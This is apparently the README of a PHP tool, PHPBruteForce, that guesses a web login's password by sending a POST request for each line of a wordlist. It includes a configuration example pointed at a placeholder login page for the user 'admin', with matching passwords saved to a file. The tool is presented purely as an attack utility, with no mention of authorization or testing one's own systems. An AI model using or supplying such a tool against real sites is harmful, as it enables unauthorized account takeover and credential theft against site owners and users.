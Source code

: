 # PHPBruteForce
With this PHP class, you can brute-force a login with a wordlist. 

More information
================
You specify a wordlist to use and it will send a POST request for each line of the wordlist. It can only be used for brute-forcing passwords, so you have to know the username of an account. This uses cURL.

An example
==========
``` php
<?php

require 'app\bruteforce.class.php'; // Require in the Brute Force class

BruteForce::init(array(
    'url'         => 'http://target.com/login.php', // Login page to attack.
		'username'    => 'username', // The username in the POST request.
		'password'    => 'password', // The password in the POST request.
		'adminname'   => 'admin', // So as I said, this class can only brute-force passwords. So you have to specify a username, here you must specify the username.
		'wordlist'    => 'wordlist/wordlist.txt', // Path to the wordlist.
		'failcontent' => 'Error', // Content of page when logging in fails.
		'outputfile'  => 'output/output.txt', // Path to the output file, here will the matching combo('s) be stored.
		'timezone'    => 'Europe/Amsterdam' // Timezone.
));

$bf = new BruteForce(); // Instanciate the class.
$bf->attack(); // BOOM! ATTACK!

?>
```
For a better example, take a look in the "example" directory.

